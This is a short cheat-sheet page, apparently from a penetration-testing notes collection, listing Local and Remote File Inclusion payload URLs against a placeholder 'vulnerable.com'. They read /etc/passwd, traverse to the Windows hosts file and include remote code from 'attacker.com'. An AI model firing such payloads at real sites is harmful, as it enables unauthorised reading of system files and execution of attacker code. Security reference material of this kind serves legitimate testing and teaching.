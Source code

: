 ```yaml
---
title: File Inclusion Examples
desc: Examples of Local File Inclusion (LFI) and Remote File Inclusion (RFI).
tags: [Web]
alts: []
website:
render_with_liquid: false
---
```


## Local File Inclusion (LFI)

```html
https://vulnerable.com/index.php?page=/etc/passwd

<!-- Windows -->
https://vulnerable.com/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

<br />

## Remote File Inclusion (RFI)

```html
https//vulnerable.com/index.php?page=//attacker.com/exploit
```